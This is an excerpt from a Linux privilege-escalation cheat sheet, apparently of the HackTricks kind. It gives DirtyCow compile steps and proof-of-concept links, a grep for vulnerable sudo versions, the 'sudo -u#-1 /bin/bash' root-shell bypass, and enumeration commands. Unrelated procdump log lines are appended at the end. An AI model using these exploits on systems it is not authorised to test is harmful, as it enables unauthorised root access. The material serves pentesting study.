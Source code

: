 Always **search the kernel version in Google**, maybe your kernel version is wrote in some kernel exploit and then you will be sure that this exploit is valid.

### CVE-2016-5195 (DirtyCow)

Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

```bash
# make dirtycow stable
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
```

### Sudo version

Based on the vulnerable sudo versions that appear in:

```bash
searchsploit sudo
```

You can check if the sudo version is vulnerable using this grep.

```bash
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```

### sudo < v1.28

From @sickrov

```
sudo -u#-1 /bin/bash
```

### Dmesg signature verification failed

Check **smasher2 box of HTB** for an **example** of how this vuln could be exploited

```bash
dmesg 2>/dev/null | grep "signature"
```

### More system enumeration

```bash
date 2>/dev/null #Date
(df -h || lsblk) #System stats
lscpu #CPU info
lpstat -a 2>/dev/null #Printers info
```

### Enumerate possible defenses

#### AppArmor


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714